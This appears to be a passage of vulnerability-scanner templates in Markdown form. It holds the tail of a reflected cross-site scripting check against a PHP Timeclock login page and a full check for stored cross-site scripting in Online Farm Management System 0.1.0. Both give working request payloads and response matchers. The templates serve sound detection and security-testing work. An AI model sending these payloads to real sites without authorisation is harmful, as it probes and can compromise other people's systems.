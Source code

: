 ## Requests

- Method - GET

### URL

- {{BaseURL}}/login.php/'%3E%3Csvg/onload=alert%60{{randstr}}%60%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<svg/onload=alert`{{randstr}}`>
  2. PHP Timeclock Admin Login
- part - body
- condition - and

**Type - word**

- words
  1. text/html
- part - header

---

# Online Farm Management System 0.1.0 - Cross-Site Scripting

## Description

- Online Farm Management System 0.1.0 contains a cross-site scripting vulnerability via the review.php file.

- severity - high
- tags - onlinefarm,cms,xss,edb

## Requests

### Step - 1

```
POST /reviewInput.php?pid=1 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

comment=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E&rating=0

```
